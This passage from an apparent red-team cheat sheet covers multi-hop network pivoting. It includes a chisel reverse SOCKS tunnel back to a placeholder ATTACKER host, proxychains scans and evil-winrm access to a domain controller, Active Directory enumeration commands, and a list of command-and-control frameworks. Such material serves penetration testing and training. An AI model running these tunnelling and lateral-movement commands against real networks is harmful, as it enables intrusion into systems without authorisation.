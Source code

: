 🧠 Combine **Responder** + **ntlmrelayx** + **impacket** for chained exploitation.

***

### VIII. ⚙️ Multi-Hop Pivot Scenarios

#### Example: 3-Layer Chain

```
[Attacker] ──> [Public Foothold] ──> [Internal Jump Box] ──> [DC]
```

**Setup:**\
1️⃣ `chisel server -p 8000 --reverse` on Attacker\
2️⃣ On Public Foothold:

```bash
./chisel client ATTACKER:8000 R:1080:socks
```

3️⃣ On Jump Box:

```bash
proxychains nmap -sT -Pn 10.10.10.0/24
```

4️⃣ Access DC via proxy: `proxychains evil-winrm -i 10.10.10.5 -u user -p pass`

***

### IX. 🧰 Post-Pivot Enumeration (AD/Enterprise)

| Target             | Command                             | Purpose                      |
| ------------------ | ----------------------------------- | ---------------------------- |
| Domain Controllers | `net view /domain`                  | Identify DCs                 |
| Shares             | `smbclient -L \\host\\ -U user`     | Sensitive data               |
| Logged-in Users    | `net session` / `qwinsta`           | Target movement              |
| Tickets            | `klist`                             | Check current Kerberos creds |
| Groups             | `net group "Domain Admins" /domain` | Enumerate admins             |

***

### X. 🧱 C2 & Tunneling Frameworks (Red-Team Level)

| Tool                                    | Use Case                     |
| --------------------------------------- | ---------------------------- |
| **Covenant / Empire / Sliver / Mythic** | Full C2 with lateral modules |
| **Metasploit multi/handler**            | Reverse shell management     |
| **Merlin Agent**                        | HTTP/2 encrypted C2          |
| **Nimplant / PoshC2**                   | PowerShell-based operations  |
| **Ghostpack tools (C#)**                | Internal AD lateral modules  |
